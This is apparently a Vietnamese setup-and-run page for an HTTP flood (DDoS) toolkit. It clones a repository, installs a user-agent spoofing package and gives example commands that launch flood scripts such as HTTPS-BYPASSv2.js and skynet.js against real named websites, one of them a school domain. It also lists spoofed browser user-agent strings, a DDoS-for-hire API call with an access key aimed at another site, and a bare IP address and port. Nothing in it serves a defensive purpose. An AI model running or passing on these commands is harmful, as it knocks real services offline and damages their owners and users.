 Lệnh SETUP & RUN

git clone https://github.com/phantrungtruc/jukiee.git

cd jukiee

npm i fake-useragent

VÍ DỤ :

node HTTPS-BYPASSv2.js http://thptcangiuoc.edu.vn/ 60 6 sss.txt

node skynet.js https://chinese.com.vn/ 60 50 6 sss.txt

node HTTP-DOWN.js url 60 10 6 sss.txt

Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1

Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1 Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Version/14.0.3 Safari/537.36 Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

https://thanhdieu.com/API/api-ddos.php?key=thanhdieu_kW2Fx&port=443&time=70&method=HTTP-BYPASS&host=https://gtatz.com/

http://149.18.62.53:30120/
